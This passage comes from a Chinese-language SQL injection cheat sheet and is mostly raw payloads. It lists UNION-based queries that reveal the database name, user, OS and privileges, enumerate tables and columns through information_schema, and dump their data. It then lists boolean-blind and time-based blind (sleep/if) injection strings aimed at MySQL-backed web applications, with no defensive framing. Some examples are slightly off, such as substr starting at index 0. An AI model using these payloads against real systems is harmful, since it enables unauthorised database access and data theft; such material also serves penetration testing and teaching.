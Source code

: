 ```sql
        and 1=2 union all select database()
        and 1=2 union all select user()
        # 操作系统信息：
        and 1=2 union all select @@global.version_compile_os from mysql.user
        # 数据库权限：
        and ord(mid(user(),1,1))=114 # 返回正常说明为root
        # Mysql 5 以上有内置库 information_schema，存储着mysql的所有数据库和表结构信息:
        union select information_schema from information_schema.schemata
```

- (5) 爆破数据表个数：

```sql
and (select count(table_name) from information_schema.tables where table_schema=database())=2
```

- (6) 查找数据表名：

```sql
union select 1,2,(select group_concat(table_name) from information_schema.tables where table_schema=database())
```

- (7) 查找列名:

```sql
union select 1,2,(select group_concat(column_name) from information_schema.columns where table_name=[table_name])
当列名被waf过滤时, 使用其进行ascii编码
```

- (8) 获取数据:

```sql
union select [column_name] from [table_name]
```

## 3. 基于布尔的盲注

- (1)获取数据库库名长度:

```sql
id=1' and length(database())='1
```

- (2). 获取数据库名:

```sql
id=1' and substr(database(), 0, 1)='a
```

- (3). 获取数据表表名:

```sql
id=1' and substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),1,1)='a' and '1'='1
```

- (4). 获取列名:

```sql
id=1' and substr((select group_concat(column_name) from information_schema.columns where table_name=[table_name]),1,1)='a' and '1'='1
```

## 4. 基于时间的盲注

使用 sleep+if 的方式试探字符串, 例如:

```sql
1' and if( substr((select database()), 1, 0)='a', sleep(1), 0)
```

使用 python 时, 使用 requests.total_second()获取响应时间而不是 timeout